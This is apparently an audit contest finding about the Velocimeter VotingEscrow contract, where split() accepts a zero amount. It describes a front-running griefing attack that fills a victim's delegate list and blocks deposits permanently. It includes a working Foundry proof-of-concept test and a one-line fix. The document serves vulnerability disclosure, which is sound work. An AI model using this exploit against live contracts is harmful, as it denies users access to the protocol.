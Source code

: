 Polite Butter Gazelle

High

# Attacker can permanently block deposits in `VotingEscrow` due to lack of 0 amount check in `VotingEscrow::split`

## Summary

The `VotingEscrow` contract allows users to lock LP tokens for a maximum time of 52 weeks. In return, they are minted a `veNFT` that grants them the ability to vote on gauges for rewards, which is a core functionality of the protocol.

The issue is regarding `VotingEscrow::split`, which allows `veNFT` holders to split their NFTs. For example, if Bob locks 500e18 LP tokens and receives a `veNFT` of id = 1, he can call `VotingEscrow::split` to create a new `veNFT` with id = 2, that takes 250e18 LP tokens (or however many tokens he specifies) from the `veNFT` of id = 1. Bob will now own two veNFT's (id=1, id=2), each holding 250e18 LP tokens. 

The problem is that `VotingEscrow::split` does not verify that the split amount is greater than 0. A user can specify 0 amount and mint as many `veNFTs` without locking any tokens for it.

An attacker can exploit this by front-running an innocent user's call to deposit and delegating the split `veNFTs` to the user until it reaches `MAX_DELEGATES`, permanently blocking deposits for the innocent user.

## Vulnerability Detail

Users can deposit and lock their tokens via `VotingEscrow::create_lock` or `VotingEscrow::create_lock_for`. Note that any other deposit functionality within the contract is to increase *existing* locks.

[VotingEscrow.sol#L839-L852](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L839-L852)
```javascript
    function _create_lock(uint _value, uint _lock_duration, address _to) internal returns (uint) {
        uint unlock_time = (block.timestamp + _lock_duration) / WEEK * WEEK; // Locktime is rounded down to weeks

@>      require(_value > 0); // dev: need non-zero value
        require(unlock_time > block.timestamp, 'Can only lock until time in the future');
        require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

        ++tokenId;
        uint _tokenId = tokenId;
@>      _mint(_to, _tokenId);

        _deposit_for(_tokenId, _value, unlock_time, locked[_tokenId], DepositType.CREATE_LOCK_TYPE);
        return _tokenId;
    }
```

Note that the user must lock `amount > 0`. The user is then minted a `veNFT` which can be used to vote on gauges.

The `_mint` function calls `_moveTokenDelegates`, which has the following `require` check:

[VotingEscrow.sol#L1398-L1401](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1398-L1401)
```javascript
    require(
        dstRepOld.length + 1 <= MAX_DELEGATES,
        "dstRep would have too many tokenIds"
    );
```

This is to ensure that users can only have `MAX_DELEGATES = 1024`, which is for gas efficiency. If the user's delegates are already at `1024`, they can no longer lock any tokens.

`VotingEscrow::split` mints a new `veNFT` for `veNFT` holders that decide to allocate some of the locked tokens to a new `veNFT`.

[VotingEscrow.sol#L1217-L1244](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1217-L1244)
```javascript
    function split(uint _tokenId,uint amount) external {
        
        // check permission and vote
        require(attachments[_tokenId] == 0 && !voted[_tokenId], "attached");
        require(_isApprovedOrOwner(msg.sender, _tokenId));
        require(!blockedSplit[_tokenId],"split blocked");

        // save old data and totalWeight
        address _to = idToOwner[_tokenId];
        LockedBalance memory _locked = locked[_tokenId];
        uint end = _locked.end;
        uint value = uint(int256(_locked.amount));
        require(value > amount,"amount > value");

        // save end
        uint unlock_time = end;
        require(unlock_time > block.timestamp, 'Can only lock until time in the future');
        require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

        // remove old data
        _remove_from(_tokenId, amount, unlock_time, _locked);
        
        // mint 
        ++tokenId;
        uint _newTokenId = tokenId;
        _mint(_to, _newTokenId);
        _deposit_for(_newTokenId, amount, unlock_time, locked[_newTokenId], DepositType.SPLIT_TYPE);
    }
```

However, it lacks any checks to verify that `amount > 0`. Users can call this function with 0 amount and mint as many `veNFTs` without locking any LP tokens.

An attacker can exploit this via the following:

1. Alice calls `VotingEscrow::create_lock` to lock her tokens for a `veNFT`.
2. Attacker front-runs transaction and calls `split` to delegate 0 amount locked `veNFT` to Alice until it reaches `MAX_DELEGATES`.
3. Alice's call to `VotingEscrow::create_lock` will permanently revert since she has `token delegates = MAX_DELEGATES`.
4. Note that she will also have essentially `0 voting power` because her locked amounts are of `0 amount`.

Alice will never be able to deposit and lock her tokens in `VotingEscrow` for a `veNFT`, and thus will not be able to vote on gauges.

## Impact

Permanent Denial of Service, deposits blocked. Users cannot mint `veNFTs` and vote for gauges, breaking core functionality and incentives of the protocol.

## Proof of Concept


Add the following to `test/VotingEscrow.t.sol` and run `forge test --mt testDepositsBlocked`

```javascript
    function testDepositsBlocked() public {
        address alice = vm.addr(1);
        address attacker = vm.addr(2);
        uint256 maxtime = 52 * 7 * 24 * 3600; // 52 weeks
        
        // get LP tokens
        FLOW.mint(address(attacker), TOKEN_1M);
        DAI.mint(address(attacker), TOKEN_1M);
        FLOW.mint(address(alice), TOKEN_1M);
        DAI.mint(address(alice), TOKEN_1M);

        vm.startPrank(address(attacker));
        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, address(attacker), block.timestamp);
        vm.stopPrank();

        vm.startPrank(address(alice));
        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, address(alice), block.timestamp);
        vm.stopPrank();

        // attacker front-runs alice's attempt to lock tokens and delegates MAX_DELEGATES to her
        vm.startPrank(address(attacker));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(1, maxtime);
        for(uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
            escrow.split(tokenId, 0); // split 0 amount
            escrow.delegate(address(alice));
        }
        vm.stopPrank();

        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);

        // alice attempts to lock but reverts
        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        vm.expectRevert("dstRep would have too many tokenIds");
        escrow.create_lock(TOKEN_1, maxtime);
        vm.stopPrank();
    }
```

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L839-L852

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1398-L1401

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1217-L1244

## Tool used

Manual Review

## Recommendation

Ensure that users can't split their `veNFTs` with 0 amount:

```diff
    function split(uint _tokenId,uint amount) external {
        
        // check permission and vote
        require(attachments[_tokenId] == 0 && !voted[_tokenId], "attached");
        require(_isApprovedOrOwner(msg.sender, _tokenId));
        require(!blockedSplit[_tokenId],"split blocked");
+       require(amount > 0, "Cannot split with 0 amount");

        // save old data and totalWeight
        address _to = idToOwner[_tokenId];
        LockedBalance memory _locked = locked[_tokenId];
        uint end = _locked.end;
        uint value = uint(int256(_locked.amount));
        require(value > amount,"amount > value");

        // save end
        uint unlock_time = end;
        require(unlock_time > block.timestamp, 'Can only lock until time in the future');
        require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

        // remove old data
        _remove_from(_tokenId, amount, unlock_time, _locked);
        
        // mint 
        ++tokenId;
        uint _newTokenId = tokenId;
        _mint(_to, _newTokenId);
        _deposit_for(_newTokenId, amount, unlock_time, locked[_newTokenId], DepositType.SPLIT_TYPE);
    }
```